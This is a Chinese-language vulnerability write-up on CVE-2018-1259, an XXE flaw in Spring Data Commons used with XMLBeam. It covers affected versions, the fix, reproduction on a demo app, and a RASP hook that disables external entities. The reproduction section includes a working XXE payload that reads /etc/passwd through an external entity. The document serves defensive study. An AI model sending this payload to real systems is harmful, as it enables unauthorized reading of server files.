


# CVE-2018-1259

## 漏洞简介

XMLBeans 提供了底层XML数据的对象视图，同时还能访问原始的XML信息集合。Spring Data Commons 1.13至1.13.11以及2.0至2.0.6的版本在与XMLBeam1.4.14或更早的版本进行结合使用时，XMLBeam不会限制XML外部实体应用，导致未经身份验证的远程恶意用户可以针对Spring Data的请求绑定特定的参数，访问系统上的任意文件.

## 影响版本

Spring Data Commons 1.13 to 1.13.11 

Spring Data REST 2.6 to 2.6.11 

Spring Data Commons 2.0 to 2.0.6 

Spring Data REST 3.0 to 3.0.6 

## 漏洞分析

通过 [漏洞修复commit](https://github.com/SvenEwald/xmlbeam/commit/f8e943f44961c14cf1316deb56280f7878702ee1)
发现，对DefaultXMLFactoriesConfig.java进行了修改，如下：



+ 配置了默认的feature;
+ 禁止实体引用、禁止合并多个XML文档;


## 复现环境

### 代码下载

+ 代码来源于 spring-data-examples 官方demo [spring-data-xml-xxe](https://gitee.com/xl1605368195/xxe-demo.git)

### 编译运行

进入工程根目录执行
```shell
mvn clean package
java -jar ./target/xxe-demo-0.0.1-SNAPSHOT.jar
```

### 发起请求

任意文件读取，使用post发送xml格式的payload
如下：
```xml
<?xml version="1.0" encoding="UTF-8"?>        
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY rabbit SYSTEM "file:///etc/passwd" >
]>
<user><firstname>&rabbit;</firstname><lastname>don9sec</lastname></user>
```
使用post man 发送请求如下：



## RASP防护
开启RASP防护，再次发起请求


请求已经被阻断，RASP防护生效。

## hook 
```java
    private static final String FEATURE_DEFAULTS_1 = "http://apache.org/xml/features/disallow-doctype-decl";
    private static final String FEATURE_DEFAULTS_2 = "http://xml.org/sax/features/external-general-entities";
    private static final String FEATURE_DEFAULTS_3 = "http://xml.org/sax/features/external-parameter-entities";
    private static final String FEATURE_DEFAULTS_4 = "http://apache.org/xml/features/nonvalidating/load-external-dtd";

    public void closeDocumentBuilderFactoryConfigXXE() {
        final String className = "javax.xml.parsers.DocumentBuilderFactory";
        final String methdName = "newInstance";
        new EventWatchBuilder(moduleEventWatcher)
                .onClass(className)
                .includeBootstrap()
                .onBehavior(methdName)
                .withEmptyParameterTypes()
                .onWatch(new AdviceListener() {
                    @Override
                    public void afterReturning(Advice advice) throws Throwable {
                        if (!enableBlock) {
                            return;
                        }
                        DocumentBuilderFactory instance = (DocumentBuilderFactory) advice.getReturnObj();
                        // 这个是基本的防御方式。 如果DTDs被禁用, 能够防止绝大部分的XXE;
                        // 如果这里设置为true会影响mybatis-xml的加载
                        instance.setFeature(FEATURE_DEFAULTS_1, true);
                        // 如果不能完全禁用DTDs，至少下面的几个需要禁用:(推荐)
                        instance.setFeature(FEATURE_DEFAULTS_2, false);
                        instance.setFeature(FEATURE_DEFAULTS_3, false);
                        instance.setFeature(FEATURE_DEFAULTS_4, false);
                        instance.setXIncludeAware(false);
                        instance.setExpandEntityReferences(false);
                    }

                    @Override
                    protected void afterThrowing(Advice advice) throws Throwable {
                        // 目标方法调用完成，如果抛出异常（插桩的代码bug导致的异常或者主动阻断的异常）将清除上下文环境变量
                        requestInfoThreadLocal.remove();
                    }
                });
    }
```

上面的hook逻辑：`DocumentBuilderFactory.newInstance`返回构建对象之前设置feature
